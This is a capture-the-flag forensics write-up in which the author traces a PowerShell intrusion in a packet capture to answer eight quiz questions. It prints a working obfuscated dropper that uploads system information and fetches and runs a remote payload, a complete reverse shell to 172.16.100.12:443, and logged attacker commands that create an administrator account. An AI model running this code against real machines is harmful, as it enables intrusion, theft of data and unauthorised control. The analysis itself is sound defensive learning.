







## Powersploit  



This challenge involves an `8` quiz that we must pass to get the flag. We are given a `pcapng` file to analyse and gather information to answer the questions.  



### install.ps1  

Since the chall description mentions a Powershell script, we can try finding that first. The script was most likely downloaded over HTTP or TCP, so we can filter for these protocols in Wireshark.  

Filtering only `http` packets shows a `GET` request being made for `install.ps1`.  



Following the TCP stream will then show the contents of `install.ps1`.  



`install.ps1` decrypts a long Base64 string and executes it with `Invoke-Expression` (`$sheLLiD[1]+$ShELLiD[13]+'X'`).  

```powershell
&( $sheLLiD[1]+$ShELLiD[13]+'X') ( neW-oBJeCT  iO.STREaMREADer( ( neW-oBJeCT iO.COmPreSsIon.DEFLATesTReam( [IO.meMORYstreaM][sySteM.CONvert]::froMbase64STRing('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' ),[systEm.iO.CompRESsION.COmprESsIonMODe]::dECoMPReSs ) ), [TEXT.eNcoDing]::aScii)).reADToENd( )
```

We can replicate the decryption logic in Python to recover the actual script logic.  

```python
import base64
import zlib

b64 = '<base64 string>'

decoded = zlib.decompress(base64.b64decode(b64), -zlib.MAX_WBITS).decode()
print(decoded)
```

Decrypting the string will produce this highly obfuscated powershell script, which essentially downloads `ServiceUpdater.exe` 

```powershell
$KGtu1  =  [TYpE]("{7}{8}{6}{9}{0}{3}{2}{4}{1}{5}" -f 'Y.p','nT','NCiPAl.wIndOWS','RI','idE','ItY','e','SY','STEM.S','cUrIT')  ;   SET-ITEM  ("vaRiABl"+"e:8"+"4R"+"Bua") ([TYPe]("{6}{7}{2}{3}{5}{0}{1}{4}" -f 'WsBUil','t','pR','inCipal','InROLE','.WiNdO','S','eCUrITy.'))  ;    Sv  ('hN'+'B2')  ( [type]("{3}{0}{1}{2}"-F 'viRoN','m','ENT','EN') ) ;    sET fzuk  ( [TYPe]("{1}{0}{2}"-f 'In','str','G') )  ;${Re`MotE`ip} = ("{1}{2}{0}"-f '100.12','172.16','.')
${remO`Te`PorT} = 80
${oU`TP`Ut} = ((("{3}{4}{5}{2}{1}{0}"-f'txt','nfo.','rcimi','C:','UsershgrPublich','g'))-crEPlacE  'hgr',[CHAr]92)
${sY`sINf`ova`Rs} = @(("{1}{0}{2}" -f 'st','Ho',' Name'), ("{1}{0}" -f ' Name','OS'), ("{0}{2}{1}"-f 'OS Ver','on','si'), ("{5}{1}{4}{0}{3}{2}"-f'igurat',' C','on','i','onf','OS'), ("{0}{2}{1}{3}" -f'System','Typ',' ','e'), ("{1}{2}{4}{3}{0}"-f'er','Re','g','red Own','iste'), ("{1}{0}{2}" -f'OS Ver','BI','sion'), ("{2}{1}{0}" -f'in','ma','Do'), ("{1}{2}{0}" -f 'er','Logon ','Serv'))

try {
    ${sYs`i`NfO} = .("{0}{1}{2}" -f 'syst','e','minfo')
    ${r`e`SUlTS} = @()
    foreach (${f`IelD} in ${S`ysi`NfOvA`RS}) {
        ${r`E`sUlTs} += (${Sysi`N`FO} | &("{1}{2}{0}"-f 't-String','Sel','ec') ${fI`E`ld}).ToString()
    }
    ${CUr`RE`NtuSER} =  (vaRiablE ('k'+'GTU1') -vaLuE )::GetCurrent()
    ${rEs`UL`Ts} += ${C`UrR`eNtuSer}
    ${I`SADM`IN} = (.("{2}{1}{3}{0}" -f't','w-Obje','Ne','c') ("{3}{0}{5}{1}{6}{4}{2}" -f 'ty.Pri','ipal.Wind','rincipal','Securi','wsP','nc','o')(${C`URR`eNT`USER})).IsInRole(  (gEt-vaRiABlE  ("84R"+"BUa")  -vALu  )::Administrator)
    ${r`ES`UlTs} += "Is Admin     : ${isAdmin}"

    ${HOmEd`IR} =  ( dir ('vAr'+'IABl'+'E:'+'hNB2') ).vALuE::GetFolderPath(("{1}{0}{2}"-f 'erProfil','Us','e'))
    ${Ou`Tp`Ut} = &("{1}{0}" -f '-Path','Join') ${ho`me`diR} ("{0}{2}{1}"-f'c','minfo.txt','i')
    ${d`IR} = .("{0}{2}{1}" -f 'Sp','ath','lit-P') ${ou`Tp`UT}
    if (-not (&("{1}{2}{0}"-f 'th','Te','st-Pa') ${D`iR})) {
    	.("{0}{1}"-f'New-I','tem') -Path ${d`ir} -ItemType ("{1}{2}{0}" -f 'ory','Dir','ect') -Force | &("{1}{0}"-f 'Null','Out-')
    }
    ${re`S`ULts} | .("{1}{0}{2}" -f'ut-F','O','ile') -FilePath ${oUT`p`UT} -Encoding ("{0}{1}"-f 'UTF','8')
    ${Re`Sp} = &("{0}{4}{3}{1}{5}{2}" -f'I','e','t','-WebRequ','nvoke','s') -Uri "${remoteIp}:${remotePort}" -Method ("{1}{0}" -f'OST','P') -InFile ${Ou`TP`UT} -UseBasicParsing
    ${paYloA`d`Id} = ${r`esP}.Content.Trim()
    if (  (  VArIABLE FzUK  -vAlUeOnly  )::IsNullOrEmpty(${pAyL`oad`Id})) {
        exit 0 
    }
    ${x} = (.("{2}{1}{3}{0}"-f '-Object','e','N','w') ("{4}{3}{0}{2}{1}"-f'.WebC','ent','li','et','N')).DownloadString("http://${remoteIp}:80/ServiceUpdater.exe")
    #Set-ItemProperty -Path "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" -Name "ServiceUpdater" -Value $x -Type String
    .("{0}{1}"-f'ie','x') ${X}
} catch {
    exit 0
}
```

### ServiceUpdater.exe  

In the earlier `http` filter, we can notice a second `GET` request for `ServiceUpdater.exe`.  

Following the TCP stream again, we can locate its contents, revealing that it's a reverse shell exploit script.  

```powershell
$client = New-Object System.Net.Sockets.TCPClient("172.16.100.12",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

### Question 1

The reverse shell script shows the address it connects to, so we have the answer to question 1: `172.16.100.12`.  



### Question 2

The next question requires us to find the file that `install.ps1` outputs the system inforamtion to.  


In the script, we can locate this line, giving us the next answer: `ciminfo.txt`.  

```powershell
${Ou`Tp`Ut} = &("{1}{0}" -f '-Path','Join') ${ho`me`diR} ("{0}{2}{1}"-f'c','minfo.txt','i')
```

### Question 3  

Question 3 requires us to find the path where `install.ps1` attempts to install the reverse shell.  



We can find this line in the script, so the answer is `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`.  

```powershell
#Set-ItemProperty -Path "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" -Name "ServiceUpdater" -Value $x -Type String
```

### Question 4  

This question is quite straightforward since our initial recon already found `ServiceUpdater.exe`.  


### Question 5  

For this one, we can find the port number at the start of the reverse shell script: `443`.  


### Question 6  

To find the duration of the connection, we can first filter for the packet stream of the reverse shell, which is TCP stream `3`.  


The first packet is `96`, where the `SYN` packet was sent to establish the connection, and the last packet is `146`, where the `RST-ACK` packet indicates an abrupt disconnection.  

The timings are `35.512631` and `146.101046` respectively, giving us the duration: `110.588415` seconds.  


### Question 7  

For the last two questions, we will have to find the exact commands ran by the attacker.  



Since we already filtered for TCP stream `3`, we can just select one of the packets and follow the stream, giving us the complete log of commands and their outputs.  

Towards the end, we can see the attacker outputting the contents of `confidential.txt`, giving us the answer: `0d550b3f9c28988953197836d9f2db696db24fbb64d9dd10e7c6e4ba5003e51f`.  

```batch
PS C:\Users\Solitude\Desktop> 
type confidential.txt

0d550b3f9c28988953197836d9f2db696db24fbb64d9dd10e7c6e4ba5003e51f
PS C:\Users\Solitude\Desktop> 
```

### Question 8  

For the last question, we can just refer to the logs we retrieved previously.  


We can find these commands being run, giving us the final answer: `Ichinose`.  

```batch
PS C:\Windows\system32\WindowsPowerShell\v1.0> 
net user /add Ichinose password123

PS C:\Windows\system32\WindowsPowerShell\v1.0> 
net localgroup Administrators Ichinose /add

PS C:\Windows\system32\WindowsPowerShell\v1.0> 
net user Ichinose

PS C:\Windows\system32\WindowsPowerShell\v1.0> 
```

After answering all the questions correctly, the server will output the flag.  


Flag: `YBN{802846803304586997887428e6c6ee86}`.  